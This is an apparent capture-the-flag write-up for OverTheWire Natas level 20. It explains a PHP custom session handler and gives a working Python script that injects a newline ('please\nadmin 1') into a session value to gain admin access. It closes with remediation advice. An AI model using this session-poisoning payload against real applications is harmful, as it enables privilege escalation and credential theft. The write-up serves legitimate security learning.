

# [Over The Wire (natas)] – [[Platform](http://natas20.natas.labs.overthewire.org/)] – [09/29/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [20]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser
- Python

## Login
1. Logged in with credentials:
   - **Username**: `natas20
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas20.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      function debug($msg) { /* {{{ */
         if(array_key_exists("debug", $_GET)) {
            print "DEBUG: $msg<br>";
         }
      }
```
   - This function takes in a message and if the key value for "debug" exists in the GET request, then it prints out the message. '


```php
      function print_credentials() { /* {{{ */
         if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
            print "You are an admin. The credentials for the next level are:<br>";
            print "<pre>Username: natas21\n";
            print "Password: <censored></pre>";
         } else {
            print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
         }
      }    
```
   - This functions checks to see if Session exists, then if the key "admin" exists in Session and that admin equal 1. If so, then will print out the flag, otherwise will state you are logged in as regular user. 


```php
      function myopen($path, $name) {
         //debug("MYOPEN $path $name");
         return true;
      }     
```
   - This function takes in path and name as inputs and returns boolean "true" always.

 
```php
      function myclose() {
         //debug("MYCLOSE");
         return true;
      }     
```
   - This function returns boolean "true" always. 


```php
      function myread($sid) {
         debug("MYREAD $sid");
         if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
            debug("Invalid SID");
                  return "";
            }
         $filename = session_save_path() . "/" . "mysess_" . $sid;
         if(!file_exists($filename)) {
            debug("Session file doesn't exist");
            return "";
         }
         debug("Reading from ". $filename);
         $data = file_get_contents($filename);
         $_SESSION = array();
         foreach(explode("\n", $data) as $line) {
            debug("Read [$line]");
         $parts = explode(" ", $line, 2);
         if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
         }
         return session_encode() ?: "";
      }    
```
   - This function asks to send a debugging message from session id "MYREAD". Then it checks session id for any non-alphanumeric or - characters. Then initiates filename variable to the session predetermined save path and concatenates mysess_ and the session id. If the file doesn't exist send debugging message adn return nothing. Otherwise debugging message reading from "filename". Initiate the data extracted from the "filename". Session reset to empty. Looping though each line and seperating each as "line" then debugging message of each. Then for each line you will seperate by spaces as "parts". Cecks to see if the part is not empty then saves it to the Session array. 


```php
      function mywrite($sid, $data) {
         // $data contains the serialized version of $_SESSION
         // but our encoding is better
         debug("MYWRITE $sid $data");
         // make sure the sid is alnum only!!
         if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
            debug("Invalid SID");
            return;
         }
         $filename = session_save_path() . "/" . "mysess_" . $sid;
         $data = "";
         debug("Saving in ". $filename);
         ksort($_SESSION);
         foreach($_SESSION as $key => $value) {
            debug("$key => $value");
            $data .= "$key $value\n";
         }
         file_put_contents($filename, $data);
         chmod($filename, 0600);
         return true;
      }
```
   - This function takes in session id and data as inputs. Writes a debugging message "MYWRITE" and the inputs. Checks that the "session id" is only alphanumeric or -. If not then returns invalid debugging message and returns. Otherwise creates individual saving path to the predetermined directory and debuggs message that we are saving to that path. We sort the array of Session. Then debug message for each key-value pair and add each to the data string. Then we put the data contents into the file that we specified earlier. We give read/write permissions to the owner over file. We return true boolean. 


```php
      function mydestroy($sid) {
         //debug("MYDESTROY $sid");
         return true;
      }    
```
   - This function returns boolean true always. 


```php
      function mygarbage($t) {
         //debug("MYGARBAGE $t");
         return true;
      }
```

   - This function returns boolean true always. 


```php
      session_set_save_handler(
         "myopen",
         "myclose",
         "myread",
         "mywrite",
         "mydestroy",
         "mygarbage"
      );

      session_start();

```

   - Simple session save handler configuration and starting the session.


```php
      if(array_key_exists("name", $_REQUEST)) {
         $_SESSION["name"] = $_REQUEST["name"];
         debug("Name set to " . $_REQUEST["name"]);
      }
```

   - Checks if the key "name" exists in request and if so will change Session name equal to the Request name and then send a debugging message. 


```php
      print_credentials();

      $name = "";
      if(array_key_exists("name", $_SESSION)) {
         $name = $_SESSION["name"];
      }
```

   - Print credentials and set name variable to empty string. If the Session key of "name" exists then set name to the Session name. 


---
  

     
4. Steps taken (Session poisoning via injection):

   1. Basically the attack surface we're looking into is the way myWrite and myRead are working for this backend. It takes in the input straight and special characters like "newline" `\n` or `%0A` are both accepted. Since the input is taken in and separated into lines if were to sneak in an extra line that not only saves the `name` value but also an `admin` value and set it to 1 we could escalate privileges.
   
   2. The attack would be complete when we read from the stored values which is done line by line.

   ```python
      import requests

      username = 'natas20'
      password = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' # input real password

      url = f"http://{username}.natas.labs.overthewire.org"
      session = requests.Session()

      response = session.get(url, auth = (username, password))
      print(response.text)
      print("="*80)

      response = session.post(url, data = {"name": "please\nadmin 1"}, auth = (username, password))
      print(response.text)
      print("="*80)

      response = session.get(url, auth = (username, password))
      print(response.text)
      print("="*80)
   ```

   
   3. This produced the flag.
   

---

🔑 **Why this works**: 

   - The custom session handler writes $_SESSION as plain text lines (key value\n) and reads by splitting on newlines, so an injected newline creates an extra session entry.

   - User-controlled name is written without sanitizing control characters (CR/LF), allowing \nadmin 1 to become a separate admin key.

   - The code validates only the SID characters, not session values, so value-based injection is possible.

   - myread reconstructs $_SESSION by splitting lines and explode(" ", $line, 2), so attacker-controlled lines produce new key→value pairs.

   - Debug output and predictable session file naming (mysess_<sid>) make it easier to confirm and enumerate successful writes.

---

💥 **Impact**

   - Local privilege escalation: attacker sets admin = 1 and gains admin-only functionality (retrieves natas21 credentials).

   - Complete account/session takeover and arbitrary session-variable creation.

   - Disclosure of sensitive data (flags, credentials) and potential pivoting to other functionality.

   - Persistence across requests (session file remains on disk) enabling repeated abuse.

   - Low detection risk if verbose debug output is enabled or session files are readable by attacker-controlled processes.

---
  
🛠️ **Remediation**

   - Reject or sanitize control characters in user input (strip/encode CR, LF, %0A, %0D) before storing in session values.

   - Use PHP’s native session serialization (session_encode()/session_decode()) or a safe structured format instead of ad-hoc line-based storage.

   - Do not build session files by concatenating raw user data; properly escape or encode values before writing.

   - Remove/disable verbose debug output in production and avoid leaking internal file paths.

   - Enforce strict file permissions and session storage ownership; rotate/expire session IDs on privilege changes.

   - Prefer built-in, well-tested session handlers (or DB-backed handlers) and validate both SID and session value formats.